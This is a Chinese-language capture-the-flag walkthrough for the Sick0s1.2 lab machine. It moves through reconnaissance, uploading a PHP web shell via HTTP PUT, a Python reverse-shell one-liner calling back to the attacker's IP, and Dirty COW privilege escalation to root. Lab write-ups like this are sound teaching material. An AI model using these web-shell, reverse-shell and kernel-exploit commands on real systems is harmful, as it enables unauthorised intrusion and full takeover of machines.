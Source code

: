 # 一、信息收集

1. 主机发现，如下，经测试发现靶机的ip为192.168.50.157
   
   ```shell
   sudo arp-scan -l
   ```
   
   ![1.png](./img/Sick0s1.2/1.png)

2. 端口扫描，只开放了22端口和80端口
   
   ```shell
   nmap -p- -sV -sC 192.168.50.157
   ```
   
   ![2.png](./img/Sick0s1.2/2.png)

3. 识别80端口web服务，如下，web中间件为lighttpd 1.4.28，php 5.3.10
   
   ```shell
   whatweb http://192.168.50.157
   ```
   
   ![3.png](./img/Sick0s1.2/3.png)

4. 扫描web目录，发现有一个test目录，但是test目录下没有东西
   
   ```shell
   gobuster dir -w /usr/share/dirb/wordlists/big.txt -u http://192.168.50.157
   ```
   
   ![4.png](./img/Sick0s1.2/4.png)

5. 使用nmap扫一下这个端口和目录支持的http方法
   
   ```shell
   nmap -p 80 192.168.50.157 --script http-methods
   ```
   
   ![5.png](./img/Sick0s1.2/5.png)

6. 发现支持options方法，http的options方法可用来探测服务器对http资源所支持的方法，使用curl探测一下http是否可写
   
   ```shell
   curl -v -X OPTIONS http://192.168.50.157/test/
   ```
   
   ![6.png](./img/Sick0s1.2/6.png)

7. 如上，发现支持PUT方法，说明test目录可写

# 二、getshell

1. 直接写一个webshell上去，如下，查看test目录，发现写入成功
   
   ```shell
   curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://192.168.50.157/test/shell.php
   ```
   
   ![7.png](./img/Sick0s1.2/7.png)

2. 利用命令执行反弹shell
   
   ```shell
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.50.215",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
   ```
   
   ![8.png](./img/Sick0s1.2/8.png)

3. 成功getshell，获取到ww-data权限

# 三、权限提升

1. 查看系统内核版本
   
   ```shell
   uname -a
   lsb_release -a
   ```
   
   ![9.png](./img/Sick0s1.2/9.png)

2. 发现系统为ubuntu 12.04.4，内核版本为linux 3.11.0-15，这个版本的ubuntu存在脏牛提权漏洞CVE-2016-5195，在exploitdb上搜索该cve，发现有exp脚本
   
   ![10.png](./img/Sick0s1.2/10.png)

3. 接下来就简单了，直接脏牛一把梭，把exp脚本上传到靶机上
   
   ```shell
   curl --upload-file 40839. -v --url http://192.168.50.157/test/40839. -0 --http1.0
   ```
   
   ![11.png](./img/Sick0s1.2/11.png)
           

4. 编译exp，会出现报错，需要链接一下依赖库
   
   ```shell
   gcc 40839.c -pthread -lcrypt -o exp
   ```
   
   ![12.png](./img/Sick0s1.2/12.png)

5. 执行exp，输入一个新密码
   
   ![13.png](./img/Sick0s1.2/13.png)

6. ssh连接新用户firefart，密码就是刚刚exp中输入的密码，成功获取root权限，但是注意，这个exp可能会让靶机系统崩溃
   
   ![14.png](./img/Sick0s1.2/14.png)